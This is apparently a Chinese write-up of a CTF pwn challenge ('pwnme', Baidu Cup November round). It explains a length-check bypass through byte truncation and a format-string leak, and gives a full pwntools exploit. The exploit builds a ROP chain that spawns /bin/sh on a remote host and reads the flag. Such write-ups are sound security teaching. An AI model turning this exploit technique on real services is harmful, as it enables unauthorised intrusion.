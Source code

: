 # pwnme

## 题目描述
---
```
nc 106.75.2.53 10006

附件下载
```

## 题目来源
---
“百度杯”CTF比赛 十一月场

## 主要知识点
---


## 题目分值
---
50

## 部署方式
---


## 解题思路
---

安全机制，开启了栈不可执行和got表不可写保护。

![](images/ctf-2021-06-10-11-09-30.png)

### 程序溢出点

![](images/ctf-2021-06-10-14-55-04.png)

在函数sub_400AF7中，v8可以读入0x12C个字节，同时if判断中对v8进行字节截断，所以我们可以输入如0x101个字符，在保证能够溢出到返回地址的同时，v8字节截断后的0x01又能够通过if判断，然后通过函数sub_400A90进行溢出。

![](images/ctf-2021-06-10-14-55-16.png)

函数sub_400AD1中存在格式化字符串漏洞，我们可以通过这个漏洞泄露任意地址的内容，并通过DynELF类获得system函数的地址。

### 整体思路

这个程序首先让你输入username跟password，然后提供三个选项

![](images/ctf-2021-06-10-14-56-03.png)

溢出漏洞位于选项2中，格式化漏洞在选项1中。

我们在输入完username和password后，首先进入选项2中，然后构造合适的payload，然后让程序调用选项1能够泄露任意地址的内容，从而可以通过DynELF类获取sytem地址。

然后让程序进入选项2中，构造能够溢出并绕过if的payload，通过ROP技术调用read函数输入/bin/sh并调用sytem函数完成system('/bin/sh')pwn掉程序。

### ROP的构造

攻击脚本如下

```python
# -*- coding:utf8 -*-
from pwn import *

io = remote('106.75.2.53',10006)

io.recvuntil('Input your username(max lenth:40): \n')
io.sendline('asd')      #输入username
io.recvuntil('Input your password(max lenth:40): \n')
io.sendline('1')        #输入password

def leak(addr):
    io.recvuntil('>')
    io.sendline('2')
    io.recvuntil('please input new username(max lenth:20): \n')
    io.sendline('BBBBB')       #输入任意大于0小于0x20个字符
    io.recvuntil('please input new password(max lenth:20): \n')
    payload1 = '%12$s'         #64位前六个参数用寄存器传参，6个以后用栈传参，需要泄露内容  
                               #的地址在rsp下6位处，所以printf取第(6+7)个参数
    payload1 += 'aaaaaaa'      #padding  使地址处在第13个参数处
    payload1 += p64(addr) 
    io.send(payload1)
    io.recvuntil('>')
    io.sendline('1')
    content = io.recvuntil('aaaaaaa')    #读取对应地址泄露的内容
    # log.info("%#x -> %s" %(addr, (content or '').encode('hex')))
    if len(content) == 13:      #前面5个B，并且在栈中以0x0A结尾，也就是6个字节，后面7个a，一共13个字节，说明没有内容泄露
         return '\x00'
    else:
        return content[6:-7]      #返回泄露的内容

d = DynELF(leak,elf = ELF('./pwnme'))
system_addr = d.lookup('system','libc')     #获取system函数在内存中的位置
log.info('system_addr:%#x' % system_addr)

io.recvuntil('>')
io.sendline('2')
io.recvuntil('please input new username(max lenth:20): \n')
io.sendline('A')      #输入任意大于0小于0x20个字符
io.recvuntil('please input new password(max lenth:20): \n')

pop_rdi_addr = 0x400ed3      #pop rdi;ret
pop_5_addr = 0x400ecb        #pop rbp;pop r12;pop r13;pop r14;pop r15;ret
read_got = 0x601FC8          #read函数got表地址
bin_sh_addr = 0x602010       #/bin/sh写入地址，在bss段中
mov_3_addr = 0x400EB0        #mov rdx,r13;mov rsi,r14;mov edi,r15d; call qword ptr [r12 + rbx*8];add rbx,1;cmp rbx,rbp;jnz short loc_400eb0

payload = ''
payload +='A' * 0x28         #padding 0x20个字节到栈底，加8溢出程序
payload += p64(pop_5_addr) 
payload += p64(0x1)          #rbp = 1,由于在mov_3_addr代码段有命令cmp rbx，rbp，jnz short loc_400eb0；rbx为0并且执行了add rbx，1指令，所以将rbp置1防止程序跳转发生错误
payload += p64(read_got)     #r12 = read函数got表地址
payload += p64(0x8)          #r13 = 0x8
payload += p64(bin_sh_addr)  #r14 = /bin/sh地址
payload += p64(0)            #r15 = 0
payload += p64(mov_3_addr)   #rdx = 0x8，rsi = /bin/sh地址，edi = 0，这段代码相当于read(0，/bin/sh地址，0x8)
payload += p64(0x8) * 7      #运行完mov_3_addr指令后接下来有add rsp，8和6个pop才到ret，用7个p64(0x8)滑过这段代码到ret
payload += p64(pop_rdi_addr)
payload += p64(bin_sh_addr)  #rdi  = /bin/sh地址
payload += p64(system_addr)  #system('bin/sh')
payload = payload.ljust(0x101,'A')    #填充到0x101个字节绕过if

io.sendline(payload)
io.sendline('/bin/sh\x00')    #输入/bin/sh
io.sendline('cat flag')       #由于交互一会就会中断，所以直接发送命令获得flag
io.interactive()
```

![](images/ctf-2021-06-10-14-56-36.png)

## 参考
---
https://www.cnblogs.com/luoleqi/p/11567953.html